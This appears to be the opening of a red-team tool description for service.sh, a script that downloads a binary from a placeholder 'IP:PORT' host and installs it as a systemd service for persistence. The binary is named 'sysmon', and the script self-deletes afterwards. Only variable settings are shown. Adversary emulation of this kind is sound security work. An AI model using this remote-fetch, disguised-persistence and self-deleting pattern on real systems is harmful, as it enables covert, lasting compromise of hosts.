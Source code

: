 # service.sh
Script to download a binary and create systemd service for persistence: ([T1543.002](https://attack.mitre.org/techniques/T1543/002/))

Used for adversary emulation and red teaming activities.

Self-deletes after successful execution.

Requires root privileges and binary URL configuration.

# Replace these variables with your specific values
BINARY_NAME="sysmon"
BINARY_URL="http://IP:PORT/sysmon"
INSTALL_PATH="/usr/local/bin/${BINARY_NAME}"

